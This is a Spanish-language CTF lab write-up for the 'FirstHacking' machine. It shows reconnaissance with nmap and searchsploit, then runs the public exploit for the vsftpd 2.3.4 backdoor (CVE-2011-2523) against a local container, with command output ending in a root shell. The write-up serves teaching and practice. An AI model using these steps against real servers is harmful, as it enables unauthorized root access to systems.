

# Máquina Vulnerable: FirstHacking 
|                   | Detalle maquina original                        |
| ----------------- | ----------------------------------------------- |
| Autor             | [El Pingüino de Mario](https://github.com/Maalfer) |
| Dificultad        | Muy Fácil                                       |
| Fecha de creación | 14/06/2024                                      |
| Fecha del writeup | 08/12/2025                                      |
| Maquina original  | firsthacking                                    |
| CVE               | CVE-2011-2523                                   |

Máquina CTF diseñada como introducción al pentesting, enfocada en la explotación de servicios vulnerables conocidos. Esta réplica implementa la versión comprometida de vsftpd 2.3.4, que contiene una backdoor histórica descubierta en 2011.

El objetivo es practicar la metodología básica de pentesting: reconocimiento con herramientas de escaneo (nmap), identificación de vulnerabilidades conocidas (searchsploit), y explotación mediante scripts públicos. La máquina ofrece acceso root inmediato tras la explotación exitosa, demostrando el impacto crítico de usar software desactualizado y comprometido. Ideal para principiantes que desean entender el flujo de trabajo básico de un test de penetración y la importancia de mantener sistemas actualizados.

## Tabla de Contenidos

- [Estructura del Proyecto](#estructura-del-proyecto)
  - [Descripción de Archivos Principales](#descripción-de-archivos-principales)
- [Explotación](#explotación)
  - [Vulnerabilidades Implementadas](#vulnerabilidades-implementadas)
    - [CVE-2011-2523: vsftpd 2.3.4 Backdoor](#cve-2011-2523-vsftpd-234-backdoor)
  - [Seguridad Implementada](#seguridad-implementada)
  - [Flags](#flags)
- [Write-up Completo](#write-up-completo)
  - [Diagrama de Ataque](#diagrama-de-ataque)
  - [Paso 1: Reconocimiento - Escaneo de Puertos](#paso-1-reconocimiento---escaneo-de-puertos)
  - [Paso 2: Búsqueda de exploit con searchsploit](#paso-2-búsqueda-de-exploit-con-searchsploit)
  - [Paso 3: Descarga del exploit](#paso-3-descarga-del-exploit)
  - [Paso 4: Ejecución del exploit](#paso-4-ejecución-del-exploit)
  - [Paso 5: Obtención de la flag](#paso-5-obtención-de-la-flag)
- [Conclusión](#conclusión)
---

## Estructura del Proyecto
```
firsthacking
└── README.md               # Documentación del proyecto
```
---

## Explotación

### Vulnerabilidades Implementadas

#### CVE-2011-2523: vsftpd 2.3.4 Backdoor
- **Descripción**: Versión comprometida de vsftpd que contiene una backdoor
- **Vector de ataque**: Al enviar un nombre de usuario que termina en `:)`, se activa la backdoor que abre un shell en el puerto 6200
- **Impacto**: Ejecución remota de código como usuario root
- **Explotación**: Mediante exploit público (49757.py) o Metasploit

---

## Write-up Completo

### Diagrama de Ataque



### Paso 1: Reconocimiento - Escaneo de Puertos

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-08 14:19 EST
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.08 seconds
```
### Paso 2: Busqueda de exploit con *searchsploit*
```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                  | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Paso 3: Descarga del exploit
```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 49757.py
  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /usr/share/exploitdb/exploits/unix/remote/49757.py
    Codes: CVE-2011-2523
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/49757.py
```

### Paso 4: Ejecución del exploit
#### Paso 4.1: Creación del entorno

Inicializar un proyecto Python con uv (gestor de paquetes moderno):
```bash
┌──(kali㉿kali)-[~/49757]
└─$ uv init
```

Instalar la dependencia telnetlib3 (aunque el exploit usa el telnetlib deprecated):
```bash
┌──(.venv)─(kali㉿kali)-[~/49757]
└─$ uv add telnetlib3
```
#### Paso 4.2: Ejecución del exploit
```bash
┌──(.venv)─(kali㉿kali)-[~/49757]
└─$ python 49757.py 172.17.0.2
/home/kali/49757/49757.py:11: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
Success, shell opened
Send `exit` to quit shell
whoami
root
```

**Resultado**: Se identifica 1 puerto abierto:
- **Puerto 21 (FTP)**: vsftpd 2.3.4


**Resultado**: Escalada exitosa a root ✓

## Conclusión

Esta máquina demuestra la importancia de mantener el software actualizado. La versión vsftpd 2.3.4 fue comprometida en 2011 y contiene una backdoor que permite acceso root inmediato sin autenticación.

**Lecciones aprendidas:**
1. **Gestión de versiones**: Usar versiones vulnerables de software puede comprometer completamente un sistema
2. **Reconocimiento básico**: Un simple escaneo con nmap puede revelar vulnerabilidades críticas
3. **Exploits públicos**: Vulnerabilidades conocidas tienen exploits públicamente disponibles
4. **Acceso inmediato a root**: Esta backdoor bypasea completamente cualquier mecanismo de autenticación
5. **Importancia de actualizaciones**: La backdoor fue descubierta y corregida en 2011, usar software desactualizado es extremadamente peligroso